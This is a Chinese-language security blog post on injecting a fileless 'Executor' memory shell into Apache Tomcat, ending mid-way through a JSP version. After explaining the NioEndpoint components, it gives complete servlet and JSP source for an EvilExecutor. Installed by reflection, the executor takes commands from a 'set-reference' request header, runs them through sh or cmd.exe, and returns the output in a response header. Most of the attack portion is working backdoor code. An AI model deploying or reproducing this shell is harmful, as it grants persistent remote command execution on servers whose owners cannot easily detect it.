# Java Security Of Tomcat Executor

## Preparation

​	之前学习的传统`Web`应用型内存马都是基于`Container`的，本文来学习一下基于`Connector`的内存马注入。

​	下图中展示了`Connector`的构成，`Connector`主要由`ProtocolHandler`与`Adapter`构成，`ProtocolHandler`主要由`Endpoint`与`Processor`组成。



​	`ProtocolHandler`分类如下：



​	`Endpoint`是`ProtocolHandler`的组成之一，而`NioEndpoint`是`Http11NioProtocl`中的实现。`Endpoint`五大组件：

- `LimitLatch`：连接控制器，负责控制最大的连接数，如果超过了此连接，`Tomcat`会将此连接线程阻塞等待，等里面有其他连接释放了再消费此连接；
- `Acceptor`：负责接收新的连接，然后返回一个`Channel`对象给`Poller`；
- `Poller`：可以将其看成是`Nio`中`Selector`，负责监控`Channel`的状态；

- `SocketProcessor`：可以看成是一个被封装的任务类；
- `Executor`：`Tomcat`自己扩展的线程池，用来执行任务类。

## Process Analysis

​	跟进一下`Executor`组件，跟进一下其`execute`方法在哪实现的。



​	跟进`org.apache.catalina.core.StandardThreadExecutor#execute`方法，当`executor`不为`null`时，其会调用`executor`的`execute`方法。



​	跟进`org.apache.tomcat.util.threads.ThreadPoolExecutor#execute`方法，因此，假设能创建一个继承`ThreadPoolExecutor`的恶意`Executor`，并重写其中的`execute`方法，那么在调用该方法的时候将能够执行恶意代码。



​	有了上面的思路，现在的重点在于如何将属性`executor`设置为创建的恶意`Executor`。跟进`org.apache.tomcat.util.net.AbstractEndpoint#setExecutor`方法，利用该方法可以将原本的`Exector`置换为创建的恶意`Exector`。



​	现在知道了如何创建恶意的`Executor`和如何修改属性`executor`为恶意的`Executor`，获取`Request`和`Response`又成为了现在的重点，这里利用工具[java-object-searcher](https://github.com/c0ny1/java-object-searcher)来获取`Request`对象。搜索的语法如下：

```java
List<Keyword> keys = new ArrayList<>();
keys.add(new Keyword.Builder().setField_type("Response").build());
List<Blacklist> blacklists = new ArrayList<>();
blacklists.add(new Blacklist.Builder().setField_type("java.io.File").build());
SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread(),keys);
searcher.setBlacklists(blacklists);
searcher.setIs_debug(true);
searcher.setMax_search_depth(20);
searcher.setReport_save_path("/Users/alphag0/Desktop");
searcher.searchObject();
```

​	利用该工具可以找到一处位于`NioEndpoint`中的`nioChannels`的`appReadBufHandler`，其中的`Buffer`存放着所需要的`request`（利用点不唯一）。



​	通过层层反射来获取`Buffer`的值：

```java
TargetObject = {org.apache.tomcat.util.threads.TaskThread} 
   ---> group = {java.lang.ThreadGroup} 
    ---> threads = {class [Ljava.lang.Thread;} 
     ---> [14] = {java.lang.Thread} 
       ---> target = {org.apache.tomcat.util.net.NioEndpoint$Poller} 
        ---> this$0 = {org.apache.tomcat.util.net.NioEndpoint} 
         ---> nioChannels = {org.apache.tomcat.util.collections.SynchronizedStack} 
          ---> stack = {class [Ljava.lang.Object;} 
           ---> [0] = {org.apache.tomcat.util.net.NioChannel} 
            ---> appReadBufHandler = {org.apache.coyote.http11.Http11InputBuffer} 
              ---> request = {org.apache.coyote.Request}
```

```java
package servlet;

import org.apache.coyote.http11.Http11InputBuffer;
import org.apache.tomcat.util.collections.SynchronizedStack;
import org.apache.tomcat.util.net.NioEndpoint;

import javax.servlet.ServletConfig;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;

@WebServlet(name = "ExecutorServlet", value = "/ExecutorServlet")
public class ExecutorServlet extends HelloServlet {
    @Override
    public void init(ServletConfig config) {
    };

    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        response.setContentType("text/html");
        try {
            Field field = ThreadGroup.class.getDeclaredField("threads");
            field.setAccessible(true);
            Thread[] threads = (Thread[]) field.get(Thread.currentThread().getThreadGroup());
            for (Thread thread : threads) {
                if (!thread.getName().contains("exec") && thread.getName().contains("Acceptor")) {
                    Field field1 = Thread.class.getDeclaredField("target");
                    field1.setAccessible(true);
                    Object pollor = field1.get(thread);
                    Field field7 = pollor.getClass().getDeclaredField("endpoint");
                    field7.setAccessible(true);
                    NioEndpoint nioEndpoint1 = (NioEndpoint) field7.get(pollor);
                    Field field8 = nioEndpoint1.getClass().getDeclaredField("poller");
                    field8.setAccessible(true);
                    Object o = field8.get(nioEndpoint1);
                    Field field2 = o.getClass().getDeclaredField("this$0");
                    field2.setAccessible(true);
                    NioEndpoint nioEndpoint = (NioEndpoint) field2.get(o);
                    Field field3 = NioEndpoint.class.getDeclaredField("nioChannels");
                    field3.setAccessible(true);
                    SynchronizedStack synchronizedStack = (SynchronizedStack) field3.get(nioEndpoint);
                    Field field4 = SynchronizedStack.class.getDeclaredField("stack");
                    field4.setAccessible(true);
                    Object[] object = (Object[]) field4.get(synchronizedStack);
                    Field field5 = object[0].getClass().getDeclaredField("appReadBufHandler");
                    field5.setAccessible(true);
                    Http11InputBuffer appReadBufHandler = (Http11InputBuffer) field5.get(object[0]);
                    Field field6 = appReadBufHandler.getClass().getDeclaredField("byteBuffer");
                    field6.setAccessible(true);
                    ByteBuffer byteBuffer = (ByteBuffer) field6.get(appReadBufHandler);
                    String s = new String(byteBuffer.array(), "UTF-8");
                    System.out.println(s);
                }
            }
        } catch (NoSuchFieldException | IllegalAccessException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
    }
}
```



​	现在解决了接收`Request`的问题，接下来来解决回显的问题。寻找Response对象依旧可以采用同样的方式来进行查找，这里我采用下断点的方式来寻找可以利用的`Response`对象，这里在上文获取`Request`对象的`Demo`完成后的`Response`中下一个断点，然后去寻找可以利用的`Response`对象。



​	这里通过层层反射，往获取到的`Response`对象的`header`中添加命令执行的回显。

```java
package servlet;

import org.apache.coyote.Request;
import org.apache.coyote.RequestGroupInfo;
import org.apache.coyote.Response;
import org.apache.coyote.http11.Http11InputBuffer;
import org.apache.tomcat.util.collections.SynchronizedStack;
import org.apache.tomcat.util.net.AbstractEndpoint;
import org.apache.tomcat.util.net.NioEndpoint;

import javax.servlet.ServletConfig;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;
import java.util.ArrayList;

@WebServlet(name = "ExecutorServlet", value = "/ExecutorServlet")
public class ExecutorServlet extends HelloServlet {
    @Override
    public void init(ServletConfig config) {
    };

    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        response.setContentType("text/html");
        response.getWriter().write("Executor Inject Successfully...");
        try {
            Field field1 = ThreadGroup.class.getDeclaredField("threads");
            field1.setAccessible(true);
            Thread[] threads1 = (Thread[]) field1.get(Thread.currentThread().getThreadGroup());
            for (Thread thread : threads1) {
                if (!thread.getName().contains("exec") && thread.getName().contains("Poller")) {
                    Field field2 = thread.getClass().getDeclaredField("target");
                    field2.setAccessible(true);
                    Object target = field2.get(thread);
                    if (target instanceof Runnable) {
                        try {
                            Field field9 = target.getClass().getDeclaredField("this$0");
                            field9.setAccessible(true);
                            NioEndpoint nioEndpoint = (NioEndpoint) field9.get(target);
                            Field field4 = AbstractEndpoint.class.getDeclaredField("handler");
//                    Field field4 = AbstractProtocol.class.getDeclaredField("handler");
                            field4.setAccessible(true);
                            Object handler = field4.get(nioEndpoint);
                            Field field5 = handler.getClass().getDeclaredField("global");
                            field5.setAccessible(true);
                            RequestGroupInfo requestGroupInfo = (RequestGroupInfo) field5.get(handler);
                            Field field6 = requestGroupInfo.getClass().getDeclaredField("processors");
                            field6.setAccessible(true);
                            ArrayList arrayList = (ArrayList) field6.get(requestGroupInfo);
                            for (Object o : arrayList) {
                                Field field7 = o.getClass().getDeclaredField("req");
                                field7.setAccessible(true);
                                Request request1 = (Request) field7.get(o);
                                Field field8 = request1.getClass().getDeclaredField("response");
                                field8.setAccessible(true);
                                Response response1 = (Response) field8.get(request1);
                                response1.addHeader("Attack", new String("H3rmesk1t".getBytes(), "UTF-8"));
                                System.out.println(response1);
                            }
                        } catch (Exception e) {
                            e.printStackTrace();
                        }
                    }
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
    }
}
```



## Achievement

### Idea

​	动态全局替换`Executor`内存马的具体思路如下:

- 首先获取对应的`NioEndpoint`；
- 获取对应的`executor`属性；
- 创建一个恶意的`executor`；
- 将恶意的`executor`传入。

### Dynamic Registration

#### Servlet

```java
package servlet;

import org.apache.coyote.RequestInfo;
import org.apache.coyote.Response;
import org.apache.tomcat.util.net.NioEndpoint;
import org.apache.tomcat.util.threads.ThreadPoolExecutor;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;
import java.nio.charset.StandardCharsets;
import java.util.ArrayList;
import java.util.Scanner;
import java.util.concurrent.*;

@WebServlet(name = "ExecutorMemoryShellServlet", value = "/ExecutorMemoryShellServlet")
public class ExecutorMemoryShellServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException, ServletException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws IOException {
        NioEndpoint nioEndpoint = (NioEndpoint) getNioEndpoint();
        ThreadPoolExecutor executor = (ThreadPoolExecutor) nioEndpoint.getExecutor();
        nioEndpoint.setExecutor(new EvilExecutor(executor.getCorePoolSize(), executor.getMaximumPoolSize(),
                executor.getKeepAliveTime(TimeUnit.MILLISECONDS), TimeUnit.MILLISECONDS, executor.getQueue(),
                executor.getThreadFactory()));
        response.getWriter().write("Executor Inject Successfully...");
    }

    public Object getField(Object obj, String field) {
        Class clazz = obj.getClass();
        while (clazz != Object.class) {
            try {
                Field declaredField = clazz.getDeclaredField(field);
                declaredField.setAccessible(true);
                return declaredField.get(obj);
            } catch (Exception e) {
                clazz = clazz.getSuperclass();
            }
        }
        return null;
    }

    public Object getNioEndpoint() {
        Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            try {
                if (thread.getName().contains("Poller")) {
                    Object target = getField(thread, "target");
                    return getField(target, "this$0");
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        return new Object();
    }

    class EvilExecutor extends ThreadPoolExecutor {
        public EvilExecutor(int corePoolSize, int maximumPoolSize, long keepAliveTime, TimeUnit unit, BlockingQueue<Runnable> workQueue, ThreadFactory threadFactory) {
            super(corePoolSize, maximumPoolSize, keepAliveTime, unit, workQueue, threadFactory);
        }
        public String getRequest() {
            try {
                Object nioEndpoint = getNioEndpoint();
                Object[] objects = (Object[]) getField(getField(nioEndpoint, "nioChannels"), "stack");
                ByteBuffer heapByteBuffer = (ByteBuffer) getField(getField(objects[0], "appReadBufHandler"), "byteBuffer");
                String req = new String(heapByteBuffer.array(), StandardCharsets.UTF_8);
                String cmd = req.substring(req.indexOf("set-reference") + "set-reference".length() + 1, req.indexOf("\r", req.indexOf("set-reference")) - 1);
                return cmd;
            } catch (Exception e) {
                e.printStackTrace();
                return null;
            }
        }

        public void getResponse(byte[] res) {
            try {
                Object nioEndpoint = getNioEndpoint();
                ArrayList processors = (ArrayList) getField(getField(getField(nioEndpoint, "handler"), "global"), "processors");
                for (Object processor : processors) {
                    RequestInfo requestInfo = (RequestInfo) processor;
                    Response response = (Response) getField(getField(requestInfo, "req"), "response");
                    response.addHeader("set-message", new String(res, StandardCharsets.UTF_8));
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        @Override
        public void execute(Runnable command) {
            String cmd = getRequest();
            try {
                if (cmd != null) {
                    boolean isLinux = true;
                    String osType = System.getProperty("os.name");
                    if (osType != null && osType.toLowerCase().contains("win")) {
                        isLinux = false;
                    }

                    String[] commands = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                    InputStream inputStream = Runtime.getRuntime().exec(commands).getInputStream();
                    Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                    String output = scanner.hasNext() ? scanner.next() : "";
                    getResponse(output.getBytes());
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
            this.execute(command, 0L, TimeUnit.MILLISECONDS);
        }
    }
}
```



### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.util.concurrent.TimeUnit" %>
<%@ page import="org.apache.tomcat.util.threads.ThreadPoolExecutor" %>
<%@ page import="java.util.concurrent.BlockingQueue" %>
<%@ page import="java.util.concurrent.ThreadFactory" %>
<%@ page import="java.nio.ByteBuffer" %>
<%@ page import="java.nio.charset.StandardCharsets" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="org.apache.coyote.RequestInfo" %>
<%@ page import="org.apache.coyote.Response" %>
<%@ page import="org.apache.tomcat.util.net.NioEndpoint" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%!
    public Object getField(Object obj, String field) {
        Class clazz = obj.getClass();
        while (clazz != Object.class) {
            try {
                Field declaredField = clazz.getDeclaredField(field);
                declaredField.setAccessible(true);
                return declaredField.get(obj);
            } catch (Exception e) {
                clazz = clazz.getSuperclass();
            }
        }
        return null;
    }

    public Object getNioEndpoint() {
    Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
    for (Thread thread : threads) {
        try {
            if (thread.getName().contains("Poller")) {
                Object target = getField(thread, "target");
                return getField(target, "this$0");
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
        return new Object();
    }

    class EvilExecutor extends ThreadPoolExecutor {
        public EvilExecutor(int corePoolSize, int maximumPoolSize, long keepAliveTime, TimeUnit unit, BlockingQueue<Runnable> workQueue, ThreadFactory threadFactory) {
            super(corePoolSize, maximumPoolSize, keepAliveTime, unit, workQueue, threadFactory);
        }

        public String getRequest() {
            try {
                Object nioEndpoint = getNioEndpoint();
                    Object[] objects = (Object[]) getField(getField(nioEndpoint, "nioChannels"), "stack");
                    ByteBuffer heapByteBuffer = (ByteBuffer) getField(getField(objects[0], "appReadBufHandler"), "byteBuffer");
                    String req = new String(heapByteBuffer.array(), StandardCharsets.UTF_8);
                    String cmd = req.substring(req.indexOf("set-reference") + "set-reference".length() + 1, req.indexOf("\r", req.indexOf("set-reference")) - 1);
                    return cmd;
                } catch (Exception e) {
                    e.printStackTrace();
                return null;
            }
        }

        public void getResponse(byte[] res) {
            try {
                Object nioEndpoint = getNioEndpoint();
